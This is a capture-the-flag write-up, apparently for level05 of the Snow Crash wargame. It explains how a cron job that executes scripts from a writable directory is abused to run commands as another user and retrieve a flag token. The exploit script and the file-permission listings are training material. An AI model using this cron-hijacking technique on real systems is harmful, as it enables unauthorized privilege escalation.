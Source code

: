 # Level05 : find flag05

## Tutorial

### 1. Checking `env` variables, groups, files etc.

- command `/usr/bin/env` => `MAIL=/var/mail/level05`
- command `groups` for `level05` user => `level05 users`
- command `ls -l $(find / -user flag05 2> /dev/null)` :
```
-rwxr-x---  1 flag05 flag05 94 Mar  5  2016 /rofs/usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
```

### 2. Checking `/var/mail` folder

- command `ls -l /var/mail/` => `-rw-r--r--+ 1 root mail 58 Apr  9 15:59 level05`
- command `cat /var/mail/level05` => `*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`, this launches the command `/usr/sbin/openarenaserver` as user `flag05` (`-` is to login) every 1/2 a minute (`*/2 * * * *`)
- Conclusion : we can see that user `flag05` has `r` rights to `/var/mail/level05` (check additionnal explanations) which looks like a cron file. We can't see the cron of user `flag05` (except if `root` or `flag05`)
- Notes : command `cat /etc/crontab`, system-wide crontab, see more in Additional resources

### 3. Checking `/usr/sbin/openarenaserver`

- command `ls -l /usr/sbin/openarenaserver` => `-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver`
- command `cat /usr/sbin/openarenaserver` 
```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
 - Conclusion : this cron reads the content of folder `/opt/openarenaserver/` and execute every script with a time limit of 5s, then removes it

### 4. Checking `/opt/openarenaserver/`

- command `ls -l /opt` => `drwxrwxr-x+ 2 root root 40 Apr 10 14:02 openarenaserver`
- Conclusion : we can see that user `level05` has `rwx` permission (check additionnal explanations), we just have to write a script in `/opt/openarenaserver` and check that indeed there is a cron running under user `flag05` (which we can't check because we are user `level05`)

### 5. Write script to get flag05

- script : 
```
/bin/getflag > /tmp/flag05
chmod 777 /tmp/flag05
```
- command `cat /tmp/flag05` => `Check flag.Here is your token : viuaaale9huek52boumoomioc`
- We can see that indeed it worked so there is a cronjob run by `flag05`, job done !

## Additionnal explanations

### 1. Permissions for `/var/mail/level05`

- command `getfacl /var/mail/level05` :
```
# file: var/mail/level05
# owner: root
# group: mail
user::rw-
user:flag05:r--
group::r--
mask::r--
other::r--
```

### 2. Permissions `/usr/sbin/openarenaserver`

- command `getfacl /usr/sbin/openarenaserver` : we can see that user `level05` has `r` permission
```
# file: usr/sbin/openarenaserver
# owner: flag05
# group: flag05
user::rwx
user:level05:r--
group::r-x
mask::r-x
other::---
```

### 3. Permissions `/opt/openarenaserver/` 

- command `getfacl /opt/openarenaserver`
```
# file: opt/openarenaserver
# owner: root
# group: root
user::rwx
user:level05:rwx
user:flag05:rwx
group::r-x
mask::rwx
other::r-x
default:user::rwx
default:user:level05:rwx
default:user:flag05:rwx
default:group::r-x
default:mask::rwx
default:other::r-x
```

## Additional resources

- bash command
  - http://manpagesfr.free.fr/man/man1/bash.1.html
  - https://ss64.com/bash/ulimit.html
- cron
  - https://www.cyberciti.biz/faq/linux-show-what-cron-jobs-are-setup/
  - https://unix.stackexchange.com/questions/119598/as-root-how-can-i-list-the-crontabs-for-all-users
  - https://crontab.guru/every-2-minutes
- su `-c` : `-c` is for launching a command 
  - http://www.linux-france.org/article/man-fr/man1/su-1.html